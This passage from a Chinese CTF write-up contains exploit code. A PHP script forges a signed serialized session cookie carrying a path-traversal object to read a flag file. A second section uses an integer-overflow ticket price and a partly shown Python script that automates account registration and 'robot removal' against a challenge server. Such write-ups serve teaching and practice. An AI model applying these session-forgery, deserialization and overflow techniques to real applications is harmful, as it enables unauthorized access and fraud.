 ```php
```
得到``key``之后构造ddctfid:
```php
<?php
//nickname = %s

$a = 'a:4:{s:10:"session_id";s:32:"3f65fc339c032f85048e42f21fab4ef0";s:10:"ip_address";s:14:"211.137.22.191";s:10:"user_agent";s:78:"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0";s:9:"user_data";s:0:"";}';

$b = unserialize($a);

class Application{
  public $path = '....//config/flag.txt';
}

$key = 'EzblrbNS';
$b['user_data'] = new Application;

$d = serialize($b);
echo urlencode($d.md5($key.$d));
```
传参即可。
## 大吉大利今晚吃鸡

遇到买东西的题目首先思路就是改变价格，通过抓包发现价格可以往大改而不能往小改。可以利用整数溢出``0xffffffff+1``，传参进去就买到了。
然后要淘汰100个人，实际上要淘汰149个人。脚本如下：

```python
import requests
import string
import random
import json
import re

url = 'http://117.51.147.155:5050'
seq = [
  'register',
  'login',
  'balance',
  'search_ticket',
  'bill',
  'buy',
  'bill',
   'pay']

url_seg = {
  'register':'/ctf/api/register?name={0}&password=11111111',
  'login':'/ctf/api/login?name={0}&password=11111111',
  'balance':'/ctf/api/get_user_balance',
  'search_ticket':'/ctf/api/search_ticket',
  'bill':'/ctf/api/search_bill_info',
  'buy':'/ctf/api/buy_ticket?ticket_price=4294967296',
  'remove':'/ctf/api/remove_robot?id={0}&ticket={1}',
  'pay':'/ctf/api/pay_ticket?bill_id={0}'}

session = requests.session()

victiom ={
 1: '21cb23b38e33426812d68991dbb6ba68',
 2: '6f89be1e66c9bd69bce99952aa009a96',
 3: '70e1b0196609646efd0aacea613943d6',
 4: '46f7f7e50b54a636f3aae60dd839590b',
```
